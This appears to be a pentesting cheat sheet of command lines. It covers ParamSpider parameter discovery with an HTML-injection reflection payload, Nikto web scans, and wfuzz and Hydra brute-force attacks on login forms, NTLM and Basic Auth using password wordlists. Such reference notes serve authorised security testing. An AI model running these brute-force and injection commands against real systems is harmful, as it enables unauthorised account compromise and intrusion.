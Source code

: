 
##  Discover URLs for multiple
domains from a file:
paramspider -l domains.txt


##  Stream URLs on the termial:
paramspider -d example.com -s


##  Set up web request proxy:
paramspider -d example.com --proxy '127.0.0.1:7890'



##  Adding a placeholder for URL 
##  parameter values (default: "FUZZ"):
paramspider -d example.com -p '"><h1>reflection</h1>'






##  Nikto 
nikto -h 10.10.10.10 -p 80

##  Nikto HTTPS 
nikto -h 10.10.10.10 -p 443



##  wfuzz POST 
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php 


##  hydra POST 
hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20 


##  wfuzz NTLM 
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api 


##  wfuzz Basic Auth through Proxy 
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/ActivosProduban/names.txt -z file,/root/Documents/Audits/ActivosProduban/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/
